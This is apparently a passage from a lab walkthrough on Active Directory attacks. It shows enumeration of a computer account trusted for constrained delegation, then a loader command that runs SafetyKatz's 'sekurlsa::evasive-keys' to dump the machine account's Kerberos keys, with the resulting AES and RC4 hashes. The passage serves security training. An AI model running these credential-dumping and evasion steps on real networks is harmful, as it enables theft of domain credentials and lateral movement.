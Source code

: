 ```
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT📌
whenchanged                   : 3/11/2025 2:10:31 PM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2019 Standard
instancetype                  : 4
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION📌
objectguid                    : 321b38f3-2d61-4b7d-b3f0-9d8b8c94b266
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto📌    : {CIFS📌/mgmtsrv🖥️.tech.finance.corp, CIFS/mgmtsrv}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=finance,DC=corp
dscorepropagationdata         : {2/4/2022 1:16:34 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {TERMSRV/STUDVM, TERMSRV/studvm.tech.finance.corp, WSMAN/studvm, WSMAN/studvm.tech.finance.corp...}
usncreated                    : 12921
usnchanged                    : 65667
lastlogon                     : 3/11/2025 8:52:57 AM
badpwdcount                   : 0
cn                            : STUDVM
msds-supportedencryptiontypes : 28
objectsid                     : S-1-5-21-1325336202-3661212667-302732393-1104
primarygroupid                : 515
iscriticalsystemobject        : False
name                          : STUDVM
dnshostname                   : studvm.tech.finance.corp

[SNIP]
```

- **Extract Student Machine TGS Encryption Key Hash**

![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : STUDVM$🖥️
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:44 AM
SID               : S-1-5-18

         * Username : studvm$
         * Domain   : TECH.FINANCE.CORP
         * Password : 10 8b c6 de dc 62 e8 c7 98 35 52 d0 87 32 9c c4 35 6e f8 8b e4 33 50 a7 12 68 43 02 13 6a bb 4a 74 e3 b6 2c 1e db ad 93 61 18 17 08 09 89 c1 64 30 fa 85 3b 50 76 2b df 9b 11 d8 20 4f 23 a2 c4 17 db 43 62 54 c2 0b 0e d9 72 b0 de 2e 9f dd e9 96 63 4f 09 12 84 77 f6 0e 6c 13 86 93 54 8c 77 b2 5d ec b3 7a bb 99 3b 2e 06 b9 00 39 44 d4 c7 3b 09 2d 7a 7d 1c 01 26 bf cd 22 45 43 5a 3d b5 58 95 fe f1 4f 38 c6 86 48 eb 44 86 cc bd 43 ce 82 b1 4e 7b a2 fd 09 fb 87 d4 10 f6 47 0e c0 b3 b1 2b 4a f6 e7 32 c4 03 8a fb 58 25 8a 40 46 8e e1 bc f8 8d 0f f8 a3 fa 12 1f 0d c0 58 f8 88 88 53 bf 1e a1 4d 29 de d0 b4 96 87 de 64 02 d4 92 8f c3 e4 36 f3 93 b1 38 2e 68 6f 4b 1d fb 9e 2f 10 9c 72 22 8d a6 5b d8 4d df 7a d6 f1 06 9f 4c
         * Key List :
           aes256_hmac       7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6🔑
           rc4_hmac_nt       e5c5fa4934a2a058fb61bf3a143d4050
           rc4_hmac_old      e5c5fa4934a2a058fb61bf3a143d4050
           rc4_md4           e5c5fa4934a2a058fb61bf3a143d4050
```